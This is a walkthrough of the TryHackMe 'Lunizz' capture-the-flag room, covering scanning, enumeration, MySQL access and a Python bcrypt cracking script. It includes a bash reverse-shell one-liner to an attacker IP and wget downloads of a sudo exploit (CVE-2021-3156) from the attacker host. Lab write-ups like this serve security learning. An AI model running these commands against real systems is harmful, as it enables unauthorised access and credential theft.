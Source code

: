 # [Lunizz CTF](https://tryhackme.com/room/lunizzctfnd)

> Lunizz CTF

## Scanning

scan the machine

```
nmap -A -T4 10.10.80.142
```

there are 4 open ports (80,3306,4444,5000)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8f7fa2d8-9129-4b16-8519-f47db0f21c66)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ee0f0de9-2ca6-4e20-a4f0-1f1fdbeeb792)

decode the message on port 4444, we have `extremesecurerootpassword` and `p@ssword`

try to connect with netcat

```
nc 10.10.80.142 4444
```

it seem root, but no...

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/755f517f-f044-4711-9f62-0fcf0b30c86c)

## HTTP

just a normal webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/773cff2e-4d82-4278-b255-f09eac30fd56)

## Enumeration

bruteforce the directory

```
gobuster dir -u http://10.10.80.142/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x php,txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/11fe8e44-0b87-4937-bce9-8149c7f76b33)

check the /hidden directory, it like a upload page

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1640cc87-20a7-4e11-99f5-69ca1162a01c)

and /whatever directory, it like a command injection

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f658b882-f052-49d3-9271-d5683c1841cb)

but all of above is not working

instructions.txt maybe more interested `runcheck:CTF_script_cave_changeme`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/327e91d7-60b2-49d8-b4f9-641434041f7d)

## Exploitation

connect to mysql server

```
mysql -u runcheck -p -h 10.10.80.142
CTF_script_cave_changeme
```

if it appear an error, wait a minute until it connect

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4e2144f9-f03d-4142-aa4a-1976a7c43bab)

```
SHOW DATABASES;
use runornot;
SHOW TABLES;
SELECT * FROM runcheck;
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/54f25b16-a6ca-489d-8369-41f6d408bacd)

hey, what is run level? what is run on root? doesn't this related to what we just found above

```
UPDATE runcheck SET run = 1;
```

comeback /whatever folder, the run level change to 1

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0d6edfc2-e1f7-4eab-b95f-a55e00f06521)

create a reverse shell

```
nc -vlnp 1234
````

```
/bin/bash -c "bash -i >& /dev/tcp/10.18.37.45/1234 0>&1"
```

cool, gain foothold

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c6a5a855-1ee3-41b7-b931-3125f51bda7f)

upgrade shell

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export SHELL=/bin/bash;export TERM=xterm-256color
Ctrl+Z
stty raw -echo; fg
```

```
ls -la /
```

i found a folder `proct` is owned by adam maybe interest

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b5faf632-5435-41bc-b479-fa85373b11ca)

we have a subfolder pass and a python file inside

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/90ebe2f0-7ddb-4d1a-97d1-49e66767cf4c)

so crack the password of bcrypt

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```

but it's not work because the password is salted, you must crack by hand

spoil, password is in range middle of rockyou, so it will take you hours of time, create smaller passlist

```
sed -n '7288400,7288830p' /usr/share/wordlists/rockyou.txt > list.txt
```

```
#!/usr/bin/env python3
import bcrypt
import base64

wordlist = []
with open('list.txt','rt') as file:
    f = file.readlines()
    wordlist = [ x.strip() for x in f ]

salt = b'$2b$12$SVInH5XmuS3C7eQkmqa6UO'
passwd = b'$2b$12$SVInH5XmuS3C7eQkmqa6UOM6sDIuumJPrvuiTr.Lbz3GCcUqdf.z6'

for word in wordlist:
    password = word
    bpass = password.encode('utf-8')
    passed= str(base64.b64encode(bpass))
    hashAndSalt = bcrypt.hashpw(passed.encode(), salt)
    print('\r', end='') # Clear previous line
    print(f'Hash: {hashAndSalt}', end='')
    
    if hashAndSalt == passwd:
        print(f'Found: {word}')
        break
```

Spoiler alert: the password is `isolsa_tabefX100pre`. Where does this occur in rockyou?

```
import bcrypt
import base64

salt = b'$2b$12$SVInH5XmuS3C7eQkmqa6UO'
passwd = b'$2b$12$SVInH5XmuS3C7eQkmqa6UOM6sDIuumJPrvuiTr.Lbz3GCcUqdf.z6'

password = 'isolsa_tabefX100pre'
bpass = password.encode('ascii')
passed= str(base64.b64encode(bpass))
hashAndSalt = bcrypt.hashpw(passed.encode(), salt)

if hashAndSalt == passwd:
    print("Match: ", password)
```

Ok. Let's say we use our python script and run through rockyou; how long would that take? 

Honestly I don't know, but it would be a long time. Many hours. i don't know how it got past testing

but, i found another approach at CVE-2021-3156

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f00a1b03-9013-49ca-b99e-86e08dfb0bea)

```
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
python3 -m http.server
```

on target machine

```
cd /tmp
wget http://10.18.37.45:8000/exploit.c
wget http://10.18.37.45:8000/shellcode.c
wget http://10.18.37.45:8000/Makefile
make
./exploit 0
```

maybe it's not work, a bad experience

after login to `adam` with our cracked password, look at Desktop has a archive folder

```
cat /home/adam/Desktop/.archive/to_my_best_friend_adam.txt 
do you remember our place 
i love there it's soo calming
i will make that lights my password--https://www.google.com/maps/@68.5090469,27.481808,3a,75y,313.8h,103.6t/data=!3m6!1e1!3m4!1skJPO1zlKRtMAAAQZLDcQIQ!3e2!7i10000!8i5000
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3bed9887-1631-4177-94d1-15af87221087)

check `netstat -a` returns a service running on `http://127.0.0.1:8080`

```
curl http://127.0.0.1:8080/
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/60e7a3ea-5c38-46ae-9d02-e16068a73d1f)

curl -X POST -F "password=Lights" -F "cmdtype=passwd" http://127.0.0.1:8080/passwd

| Flag | user.txt |
| --- | --- |
| Answer | <flag> |

## Privilege Escalation

.

| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
